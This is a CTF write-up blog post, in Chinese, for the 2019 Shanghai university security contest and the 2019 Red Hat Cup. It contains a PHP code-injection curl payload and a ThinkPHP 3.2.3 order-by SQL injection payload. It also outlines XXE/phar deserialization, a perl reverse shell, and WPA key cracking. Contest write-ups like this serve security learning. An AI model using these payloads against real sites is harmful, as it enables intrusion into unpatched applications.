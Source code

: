 ```yaml
---
title: 2019WriteUp 汇总 VOL 3
summary: 2019上海大学生网络安全邀请赛 && 2019红帽杯
featured-img: 2019-wp-vol3
layout: post
---
```


+ [2019上海大学生网络安全邀请赛](#2019上海大学生网络安全邀请赛)
+ [2019红帽杯](2019红帽杯)

## 2019上海大学生网络安全邀请赛

### PHP

byteCTF boring_code++

```
curl "http://9f541345e3134764922236b093730b44cf8166f9f5cf4994.changame.ichunqiu.com/code/?code=echo(serialize(file(end(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion()))))))))))))))));"
```

***

## 2019红帽杯

### ticker_system

上传xml文件 + XXE

构造tp5.2的反序列化pop链，xxe `SYSTEM "phar://"`触发

服务器perl反弹shell后执行`/flag` ，trap bypass交互式验证码即可

***

### easyweb

tp3.2.3 order by报错注入

无报错回显，但可列目录

```
orderby[updatexml(1,concat(0x25,(select/**/flaag/**/from/**/fl4g)),1)%23]=1
```

`/App/Runtime/Logs/Api/19_11_11.log`看回显

***

### 恶臭流量包

802.11流量包，aircrack-ng爆破，密钥为12345678

通过wireshark导入密钥解密流量，搜索HTTP流量，发现一个上传图片。图片中藏了一个加密的压缩包

上传请求的Cookie jwt解密后为`hint：for security, I set my password as a website which i just pinged before`，wireshark搜索发现没有icmp包。可以推断域名解析的ip为127.0.0.1，发现一个dnslog.cn的域名，就是压缩包密码

p.s. 没有icmp包是因为走的网卡和访问公网的不同，猜测是loopback；且Windows上wireshark默认不装winpcap是无法抓取loopback流量的